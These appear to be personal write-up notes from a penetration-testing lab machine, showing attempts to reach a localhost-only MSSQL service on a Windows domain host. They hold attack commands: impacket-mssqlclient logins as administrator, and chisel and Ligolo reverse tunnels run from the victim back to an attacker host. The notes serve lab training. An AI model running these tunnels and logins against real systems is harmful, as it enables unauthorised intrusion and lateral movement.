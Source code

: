 ### trying impacket's-mssqlclient 

```
impacket-mssqlclient -target-ip 192.168.194.21 -k -no-pass administrator@nagoya-industries.com
```

It fails :(
![[PG/Active Directory/attachments/Pasted image 20250708200153.png]]

### Port forwarding with Chisel
It's failing because the SQL service is running off of localhost only. Need to port forward with Chisel.exe

![[PG/Active Directory/attachments/Pasted image 20250708200233.png]]

Steps 

```
#set listener on kali
chisel server --port 445 --reverse  

#on victim machine
upload chisel.exe
.\chisel.exe client 192.168.45.204:445 R:1433:127.0.0.1:1433
```



![[PG/Active Directory/attachments/Pasted image 20250708201344.png]]

```
./agent.exe -connect 192.168.45.152:11601 -ignore-cert
```


![[PG/Active Directory/attachments/Pasted image 20250708201708.png]]

![[PG/Active Directory/attachments/Pasted image 20250708203010.png]]

Then rerun mssql

```
impacket-mssqlclient -k nagoya.nagoya-industries.com
```

Well Ligolo crashed. So 

Back to 

### Chisel

https://getcyber.me/posts/how-to-use-chisel-for-reverse-tunneling/

```
#set listener on kali
chisel server --port 445 --reverse  

#on victim machine
upload chisel.exe
.\chisel.exe client 192.168.45.152:445 R:1433:127.0.0.1:1433
```

